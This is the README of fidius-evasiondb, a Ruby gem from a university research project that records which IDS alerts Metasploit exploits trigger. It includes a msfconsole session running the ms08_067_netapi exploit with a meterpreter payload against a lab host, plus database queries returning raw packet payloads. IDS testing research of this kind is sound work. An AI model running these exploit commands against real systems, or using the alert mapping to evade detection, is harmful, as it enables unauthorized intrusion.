 # FIDIUS fidius-evasiondb

The FIDIUS Evasion-DB Gem provides a database which contains knowledge about metasploit exploits and their corresponding Alert-Events produced by Intrusion Detection Systems (IDS). It includes a Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit
[fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * ids_db: A PreludeManager-Database for fetching IDMEF-Events.
 * evasion_db: Knowledge-Database for information about Exploits and their IDMEF-Events.

Please note: The Evasion-DB Gem has only been tested with Linux systems
and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with Postgres and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or from external scripts by requiring the Gem. 
The first method (use in msfconsole) is intended to generate knowledge about exploits. You can execute any module withhin metasploit 
and log corresponding IDMEF-Events. 

Please note: Currently it is only possible to fetch IDMEF-Events from an existing and configured PreludeManager-Database. At the beginning
of a module execution timestamp and number of total events in prelude are measured. After the module is finished newly generated
events are identified via timestamp and the attackers source ip.

### In msfconsole

* example for monitoring an exploit. After loading the plugin all modules which are executed by metasploit will be monitored.
All payload which is send to the target will be stored in the Knowledge-Database. After executing of the module finished generated
IDMEF-Events will be fetched from the Prelude-Database and stored to the Knowledge-Database, too.

        $ msf > load evasiondb
        $ [*] EvasionDB plugin loaded.
        $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
        $ msf > use exploit/windows/smb/ms08_067_netapi
        $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
        $ PAYLOAD => windows/meterpreter/bind_tcp
        $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
        $ RHOST => 10.20.20.1
        $ msf exploit(ms08_067_netapi) > exploit
        $ [*] Started bind handler
        $ [*] Automatically detecting the target...
        $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
        $ [*] Selected Target: Windows XP SP2 German (NX)
        $ [*] Attempting to trigger the vulnerability...
        $ [*] Sending stage (749056 bytes) to 10.20.20.1
        $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
        $ meterpreter > exit
        $ [*] Meterpreter session 1 closed.  Reason: User exit
        $ msf exploit(ms08_067_netapi) > show_events
        $ ------------------------------------------------------------
        $ exploit/windows/smb/ms08_067_netapi with 47 options
        $ ------------------------------------------------------------
        $ 11 idmef-events fetched
        $ ------------------------------------------------------------
        $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
        $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
        $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
        $ msf exploit(ms08_067_netapi) > 

### From external script

* require gem, connect_db
* Only queries possible

### Queries
Sample how the knowledge in EvasionDB can be queried:
        ruby-1.9.1-p378 > require 'fidius-evasiondb'
         => true 
        ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
        ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
        ruby-1.9.1-p378 > events.size
         => 11 
        ruby-1.9.1-p378 > events.first.severity
         => "medium" 
        ruby-1.9.1-p378 > events.first.text
         => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit
        ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
         => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents
        ruby-1.9.1-p378 > event = m.idmef_events.first
         => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets
        ruby-1.9.1-p378 > m.packets.first
         => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet
        ruby-1.9.1-p378 > m.packets.first.payload
         => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit
        ruby-1.9.1-p378 > m.attack_options.first.option_key
         => "EXITFUNC" 
        ruby-1.9.1-p378 > m.attack_options.first.option_value
         => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm@tzi.de>
 * Jens Färber <jfaerber@tzi.de>

If you have any questions, remarks, suggestion, improvements,
etc. feel free to drop a line at the addresses given above.
You might also join `#fidius` on Freenode or use the contact
form on our [website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
